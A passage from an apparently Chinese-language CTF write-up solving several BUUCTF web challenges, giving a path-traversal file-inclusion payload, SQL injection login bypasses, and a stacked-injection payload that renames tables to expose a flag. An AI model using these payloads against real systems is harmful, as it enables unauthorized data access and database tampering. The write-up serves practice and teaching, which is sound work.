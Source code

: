 `?file=source.php?/../../../../ffffllllaaaagggg`

或

`?file=hint.php?/../../../../ffffllllaaaagggg`

## 0x2.[极客大挑战 2019]EasySQL

直接

`payload: username=admin' or '1'='1&password=aaa' or '1'='1`

`username=admin&password=aa' or '1'='1`



## 0x3.[强网杯 2019]随便注

用union select 时：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

### 1）.堆叠注入：

show database;

show tables;

查看表结构：

```
desc `1919810931114514`--+
注意要用`引起来
或：show colunms from `1919810931114514`
```

可以知道，有两个表，words，1919810931114514。

大致查询语句应该为：select id,data from words where id=;

那么可以将words表改名为aaa，将1919810931114514改为words，再将id改为flag。

>   ```sql
>   0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#
>   ```



## 0x4.[极客大挑战 2019]Havefun

看源码：

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog')
{
	echo 'Syc{cat_cat_cat_cat}';
}
```
